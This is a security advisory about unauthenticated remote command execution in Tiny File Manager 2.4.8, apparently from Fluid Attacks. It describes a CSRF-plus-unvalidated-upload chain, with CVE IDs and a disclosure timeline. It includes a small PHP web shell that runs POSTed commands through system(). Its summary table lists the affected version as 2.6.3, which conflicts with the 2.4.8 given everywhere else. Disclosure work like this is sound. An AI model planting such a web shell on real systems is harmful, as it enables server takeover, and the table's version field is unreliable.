```yaml
---
slug: advisories/mosey/
title: Tiny File Manager 2.4.8 - Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: mosey
product: Tiny File Manager 2.4.8 - RCE
date: 2022-11-21 14:00 COT
cveid: CVE-2022-23044,CVE-2022-45475,CVE-2022-45476
severity: 10.0
description: Tiny File Manager 2.4.8    -    Remote Command Execution (RCE)
keywords: Fluid Attacks, Security, Vulnerabilities, Tiny File Manager, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Tiny File Manager 2.4.8 - RCE                                      |
| **Code name**         | [Mosey](https://en.wikipedia.org/wiki/Lil_Mosey)                   |
| **Product**           | Tiny File Manager                                                  |
| **Affected versions** | Version 2.6.3                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-21                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 10.0                                                                                                                        |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-23044](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23044), [CVE-2022-45475](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-45475), [CVE-2022-45476](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-45476)                                                 |

## Description

Tiny File Manager version 2.4.8 allows an unauthenticated remote attacker
to execute arbitrary code remotely on the server. This is possible because
the application is vulnerable to CSRF, does not properly validate files
uploaded by users, and allows unauthenticated users to access uploaded
files.

## Vulnerability

This vulnerability occurs because the application is vulnerable to CSRF,
does not properly validate files uploaded by users and allows unauthenticated
users to access uploaded files. Thanks to this, an unauthenticated remote
attacker can execute commands on the server.

## Exploitation

To exploit this vulnerability, the following file must be sent to the server
as administrator (to achieve this I will abuse the CSRF present in the application).

### exploit.php

```php
<?php
    if($_POST && $_POST['password']==="AGSH635479302H235") {
        echo system($_POST['cmd']);
    }
?>
```

## Evidence of exploitation

![RCE-FIleManager](https://user-images.githubusercontent.com/51862990/202495758-36ca856f-19fb-4cc9-996a-d8e6000e633f.gif)

![RCE-FileManager](https://user-images.githubusercontent.com/51862990/202495810-5201db03-3c1b-4937-b252-49bbc6b62cff.png)

## Our security policy

We have reserved the CVE-2022-23044, the CVE-2022-45475, the CVE-2022-45476 to refer
to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Tiny File Manager 2.4.8

* Operating System: GNU/Linux

## Mitigation

An updated version of Tiny File Manager is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/prasathmani/tinyfilemanager>

**Release page** <https://github.com/prasathmani/tinyfilemanager/releases/tag/2.5.0>

## Timeline

<time-lapse
  discovered="2022-11-17"
  contacted="2022-11-17"
  replied="2022-11-17"
  confirmed="2022-11-17"
  patched=""
  disclosure="2022-11-21">
</time-lapse>
